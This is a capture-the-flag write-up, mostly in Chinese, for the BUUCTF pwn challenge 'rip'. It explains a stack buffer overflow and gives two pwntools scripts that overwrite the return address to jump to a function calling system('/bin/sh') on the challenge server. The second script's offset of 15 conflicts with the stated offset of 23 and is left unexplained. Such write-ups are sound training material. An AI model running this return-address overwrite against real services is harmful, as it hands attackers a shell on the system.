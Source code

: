 # rip

### Solve

1. 先用r2看一下main裡面有什麼東西，可以看到get這個function接著用於是用BOF去測測看，可以得到offset為23

    ![image](https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/jpg/rip/Untitled.png)

    ※ offset：
    gdb$ pattc 100
    gdb$ crashoff

2. 再用r2的afl看看有哪些function，結果看到可疑的sym.fun，於是點進去看看

    ![image](https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/jpg/rip/Untitled%201.png)

3. 可以看到裡面直接call了system("/bin/sh")，正是我們的目標，於是我們用disas fun找到fun function的address

    ![image](https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/jpg/rip/Untitled%202.png)

### exp 1

![image](https://github.com/KJ-black/CTF-write-up/blob/main/BUUCTF/PWN/jpg/rip/Untitled%203.png)

```python
from pwn import *

host = "node3.buuoj.cn"
port = 29171

r = remote(host, port)
payload = "a"*23
fun = 0x401187 # 0x40118a both correct
payload += p64(fun)
r.sendline(payload)

r.interactive()
```

### exp 2

```python
from pwn import *

host = "node3.buuoj.cn"
port = 29171

r = remote(host, port)
payload = "a"*15
fun = 0x401186
payload += p64(fun)
r.sendline(payload)

r.interactive()
```
